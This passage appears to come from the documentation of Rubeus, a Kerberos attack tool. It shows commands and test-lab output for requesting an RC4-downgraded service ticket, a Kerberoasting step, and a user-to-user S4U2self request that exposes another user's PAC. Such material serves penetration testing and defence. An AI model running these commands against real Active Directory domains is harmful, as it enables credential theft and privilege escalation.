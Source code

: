 
Requesting a service ticket for an AES-enabled service account, specifying that we _only_ support RC4_HMAC:

    C:\Rubeus>Rubeus.exe asktgs /ticket:doIFmjCCBZagAwIBBaEDAgEWoo...(snip).../service:roast/me /enctype:rc4

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.4.1

    [*] Action: Ask TGS

    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Requesting 'rc4_hmac' etype for the service ticket
    [*] Building TGS-REQ request for: 'roast/me'
    [+] TGS request successful!
    [*] base64(ticket.kirbi):

        doIFrjCCBaqgAwIBBaEDA...(snip)...

    [*] Action: Describe Ticket

    UserName              :  dfm.a
    UserRealm             :  TESTLAB.LOCAL
    ServiceName           :  roast/me
    ServiceRealm          :  TESTLAB.LOCAL
    StartTime             :  2/25/2019 3:10:59 PM
    EndTime               :  2/25/2019 8:09:54 PM
    RenewTill             :  3/4/2019 3:09:54 PM
    Flags                 :  name_canonicalize, pre_authent, renewable, forwardable
    KeyType               :  rc4_hmac
    Base64(key)           :  Gg3zZicIl5c50KGecCf8XA==

Requesting a user-to-user service ticket and including the *PA for User* PA-DATA section (an S4U2self request), it is possible to get a readable PAC for any user:

    C:\Rubeus>Rubeus.exe asktgs /u2u /targetuser:ccob /ticket:doIFijCCBYagAwIBBaED...(snip)...3RwYWNrLmxvY2Fs /tgs:doIFijCCBYagAwIBBaEDAg...(snip)...YWNrLmxvY2Fs

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/

      v2.0.0
